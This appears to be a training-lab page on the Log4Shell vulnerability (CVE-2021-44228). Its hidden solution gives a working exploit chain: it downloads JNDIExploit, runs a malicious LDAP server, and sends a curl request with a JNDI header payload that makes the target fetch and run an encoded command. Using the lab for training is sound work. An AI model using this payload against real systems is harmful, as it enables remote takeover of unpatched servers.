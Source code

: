 <h2>Description</h2>
<p>Also known as CVE-2021-44228, log4shell is a zero-day software vulnerability in Apache Log4j2, a popular Java library used for logging purposes in applications.</p>
<p>This vulnerability enables a remote attacker to take control of a device on the internet if the device is running certain unpatched versions of Log4j2.</p>
<p>In December 2021, Apache had to release up to 4 corrective patches to fully close the breach. It is believed that malicious actors likely knew about the vulnerability and exploited it before experts did, hence why it is considered zero-day.</p>

<h2>Goal</h2>
<p>With the help of JNDI lookups, perform admin privilege actions upon the system (main container).</p>

<h2>Solution</h2>
<details>
    <summary>Spoilers! (click to expand)</summary>
    <p>1. Download the JNDIExploit from that link -> https://tinyurl.com/yp2n78js then extract it in a dedicated folder.</p>
    <p>2. Launch a malicious LDAP server using the command \n\"java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888\"</p>
    <p>3. Trigger the exploit using the command: curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'</p>
    <p>4. Go to Containers, open the main container shell and check for the presence of the pwned file by doing ls /tmp</p>
</details>
